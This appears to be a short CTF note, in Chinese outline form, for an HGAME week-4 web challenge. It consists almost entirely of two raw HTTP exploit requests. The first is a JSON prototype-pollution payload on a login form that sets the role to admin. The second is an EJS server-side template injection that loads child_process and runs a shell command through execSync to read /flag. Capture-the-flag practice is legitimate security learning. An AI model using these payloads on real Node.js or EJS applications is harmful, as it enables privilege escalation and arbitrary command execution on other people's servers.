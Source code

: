 tags:: EJS, [[CTFWEB/JS/原型链污染]], [[CTFWEB/SSTI/EJS]]

-
- # 原型链污染
	- [[CTFWEB/JS/原型链污染]]
	- payload
		- ```http
		  POST /login HTTP/1.1
		  Host: week-4.hgame.lwsec.cn:30052
		  Content-Length: 88
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://week-4.hgame.lwsec.cn:30052
		  Content-Type: application/json
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		  Referer: http://week-4.hgame.lwsec.cn:30052/login
		  Accept-Encoding: gzip, deflate
		  Accept-Language: en-US,en;q=0.9
		  Cookie: session=s%3A5xIDo7I-fsq9AMb-jXdy9fb9-Rj3iT9C.G7VOUI1cvglTSaduhuuxOYl%2FH65pfSFmV2iV59GzsPw
		  Connection: close
		  
		  {"username":"admin","password":"idontknow","constructor":{"prototype":{"role":"admin"}}}
		  ```
- # EJS SSTI
	- payload
		- ```http
		  POST / HTTP/1.1
		  Host: week-4.hgame.lwsec.cn:30052
		  Content-Length: 99
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://week-4.hgame.lwsec.cn:30052
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		  Referer: http://week-4.hgame.lwsec.cn:30052/
		  Accept-Encoding: gzip, deflate
		  Accept-Language: en-US,en;q=0.9
		  Cookie: session=s%3A5xIDo7I-fsq9AMb-jXdy9fb9-Rj3iT9C.G7VOUI1cvglTSaduhuuxOYl%2FH65pfSFmV2iV59GzsPw
		  Connection: close
		  
		  diary=<%25%3dglobal.process.mainModule.constructor._load('child_process').execSync("cat+/flag")%25>
		  ```